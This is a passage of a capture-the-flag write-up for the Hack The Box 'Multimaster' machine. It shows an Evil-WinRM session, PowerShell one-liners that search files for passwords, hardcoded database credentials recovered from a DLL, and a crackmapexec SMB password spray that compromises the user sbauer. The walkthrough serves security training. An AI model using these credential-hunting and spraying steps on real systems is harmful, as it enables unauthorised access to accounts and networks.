 while searching around I cound that I had access to a folder I didn't before...the `wwwroot\` folder in `C:\inetpub\`

```text
*Evil-WinRM* PS C:\inetpub\wwwroot> more index.html
<!DOCTYPE html><html lang=en><head><meta charset=utf-8><meta http-equiv=X-UA-Compatible content="IE=edge"><meta name=viewport content="width=device-width,initial-scale=1"><link rel=icon href=/favicon.ico><title>MegaCorp</title><link rel=stylesheet href="https://fonts.googleapis.com/css?family=Roboto:100,300,400,500,700,900"><link rel=stylesheet href=https://cdn.jsdelivr.net/npm/@mdi/font@latest/css/materialdesignicons.min.css><link href=/js/about.893bb588.js rel=prefetch><link href=/css/app.90380d45.css rel=preload as=style><link href=/css/chunk-vendors.11727d04.css rel=preload as=style><link href=/js/app.eeb965b5.js rel=preload as=script><link href=/js/chunk-vendors.ae41a8ca.js rel=preload as=script><link href=/css/chunk-vendors.11727d04.css rel=stylesheet><link href=/css/app.90380d45.css rel=stylesheet></head><body><noscript><strong>We're sorry but multimaster doesn't work properly without JavaScript enabled. Please enable it to continue.</strong></noscript><div id=app></div><script src=/js/chunk-vendors.ae41a8ca.js></script><script src=/js/app.eeb965b5.js></script></body></html>
```

> We're sorry but multimaster doesn't work properly without JavaScript enabled. Please enable it to continue.

[https://superuser.com/questions/815527/way-to-list-and-cat-all-files-that-contain-string-x-in-powershell](https://superuser.com/questions/815527/way-to-list-and-cat-all-files-that-contain-string-x-in-powershell) `ls -R|?{$_|Select-String 'dummy'}|%{$_.FullName;gc $_}`

Running the command `*Evil-WinRM* PS C:\inetpub\wwwroot\bin> type MultimasterAPI.dll` results in:

```text
IndexDefaultApi+api/{controller}/{id}%/api/getColleagues
                                                             UNION
SELECT  JOINALL EXEC'
                     ORDER--#WAITFOR
                                    DELAY       FROM
                                                    WHEREANDOR&&        LIKESYS%INFORMATION_SCHEMA
MASTER7{ "info" : "MegaCorp API" }!application/json€…server=localhost;database=Hub_DB;uid=finder;password=D3veL0pM3nT!; nameaSelect * from Colleagues where name like '%{0}%'idposition
                                                                               email
                                                                                    image
```

`ls -R -EA SilentlyContinue|?{$_|Select-String 'password'}|%{$_.FullName;}`

### Moving laterally to user3 - `sbauer`

```text
zweilos@kalimaa:~/htb/multimaster$ crackmapexec smb -u users -p passwords -d MEGACORP 10.10.10.179
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\shayna:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\shayna:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\shayna:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\shayna:D3veL0pM3nT! STATUS_LOGON_FAILURE

...snipped...
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP\sbauer:D3veL0pM3nT!
```
